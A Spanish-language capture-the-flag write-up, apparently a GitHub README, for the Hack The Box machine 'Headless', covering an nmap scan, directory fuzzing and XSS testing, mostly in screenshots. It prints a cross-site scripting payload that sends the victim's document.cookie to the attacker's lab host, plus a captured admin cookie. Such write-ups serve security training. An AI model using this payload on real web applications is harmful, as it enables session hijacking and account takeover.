 # HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)



``` javascript
<script>alert(‘XSS’)</script>
```



Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b67c57b8-9bb9-4491-9385-a25d1fafbc15)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b68edf39-9e86-499a-8c37-2eca9830b174)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/75378874-c1d1-4c2b-bbcd-beef2b1602d0)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/73428c24-ed07-4899-bb0e-a78eb2c43f3b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ad2d1ffb-445b-42df-a178-6521a399b907)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ef519537-4488-459c-ab50-e8887d954826)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/1db49c30-e4b8-4324-a3a6-919e955efb91)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2b547132-09ac-47f5-8799-bbdc674e991d)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ea9720f4-2e2c-44a7-857f-2fad1f1b0ab7)
